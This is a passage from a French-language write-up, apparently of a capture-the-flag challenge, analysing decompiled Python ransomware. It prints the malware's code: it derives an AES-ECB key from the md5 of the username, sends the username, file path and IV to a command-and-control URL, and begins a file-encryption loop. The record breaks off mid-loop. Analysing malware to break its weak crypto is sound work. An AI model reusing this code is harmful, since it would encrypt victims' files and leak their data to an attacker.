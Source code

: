 Bien plus simple à analyser.

## Analyse du code python

Rien qu'avec les imports, on voit que le malware va faire de l'AES et probablement générer clé / iv de manière aléatoire. Ensuite, les variables globales peuvent interpeler:

* TARGET_DIR: le repertoire à chiffrer;
* C2_URL: l'url du serveur de command and control de l'attaquant, en l'occurence il n'existe pas / plus;
* TARGETS: une ribambelle de noms et prénoms.

La fonction qui va être intéressante est `lock_file(path)`. Les premières lignes vont servir à générer la clé AES:

```python
username = get_username()
hsh = hashlib.new('md5')
hsh.update(username)
key = hsh.digest()
```

La clé est donc le md5 du username. Les deux lignes suivantes servent à initialiser l'AES:

```python
cip = AES.new(key, 1) # AES ECB
iv = get_random_bytes(16)
```

Il faut de l'AES ECB avec comme clé le `md5(username)` et génère un vecteur d'initialisation (IV). Hors, l'AES ECB n'a pas d'IV. 

Les deux lignes suivantes envoient les paramètres AES au serveur de command and control:

```python
params = (('target', username), ('path', path), ('iv', iv))
requests.get(C2_URL, params=params)
```

Bon, et maintenant le vif du sujet: la crypto. On va reprendre cette fonction en ne gardant que l'algo:

```python
'''
génération de la clé
'''
username = get_username()
hsh = hashlib.new('md5')
hsh.update(username)
key = hsh.digest()

'''
init de l'AES
'''
cip = AES.new(key, 1)
iv = get_random_bytes(16)

'''
tambouille
'''
with open(path, 'rb') as (fi):
    with open(path + '.hacked', 'wb') as (fo):
        block = fi.read(16)
        while 1:
            if block:
                while 1:
                    if len(block) < 16:
                        block += bytes([0])
                    else:
```